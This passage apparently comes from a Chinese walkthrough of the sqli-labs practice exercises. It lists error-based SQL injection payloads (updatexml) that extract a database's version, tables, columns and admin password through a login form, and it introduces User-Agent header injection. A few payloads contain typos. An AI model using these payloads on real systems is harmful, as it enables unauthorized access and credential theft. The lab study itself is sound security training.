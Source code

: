 对版本进行测试爆破：

`uname=admin&passwd=admin' and updatexml(1,concat('~',version()),'~',1)--+ &submit=Submit`

爆库

`uname=admin&passwd=admin' and updatexml(1,concat('~',database()),'~',1)--+ &submit=Submit`

爆表

`uname=admin&passwd=admin' and updatexml(1,concat('~',(select group_concat(table_name) from information_schma.columns where table_schema=database()),'~'),1)--+ &submit=Submit`

爆列名

`uname=admin&passwd=admin' and updatexml(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_name='users' and column_name not in('user_id','user','first_name','last_name','avatar','last_login','failed_login')),'~'),1)`

尝试输出密码

`uname=admin&passwd=admin' and updatexml(1,concat(0x7e,(select group_concat(password) from users),0x7e),1) --+ &submit=Submit `

却发现了错误

[![0j3tBV.jpg](https://s1.ax1x.com/2020/10/18/0j3tBV.jpg)](https://imgchr.com/i/0j3tBV)

尝试加一层select

`uname=admin&passwd=admin' and updatexml(1,concat('~',(select password from (select password from users where username='admin')),'~'),1) --+&submit=Submit`

发现提示：every derived table must have its own alias

需要给查询的表添加一个别名

`uname=admin&passwd=12' and updatexml(1,concat('~',(select password from (select password from users where username='admin')a),'~'),1) --+&submit=Submit`

***
# less 18(基于错误的用户代理，头部POST注入)[存疑]
***
## 原理

http头部注入，uagent字段

## 步骤

1.查看源代码，发现用户名和密码都被做了check_input检测，但是新出现了一个注入点user-agent,

`$uagent = $_SERVER['HTTP_USER_AGENT'];`

`$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";`

对uagent没有过滤便对其向数据库进行了插入，所以可以用bp对user_agent进行注入，将其改为payload
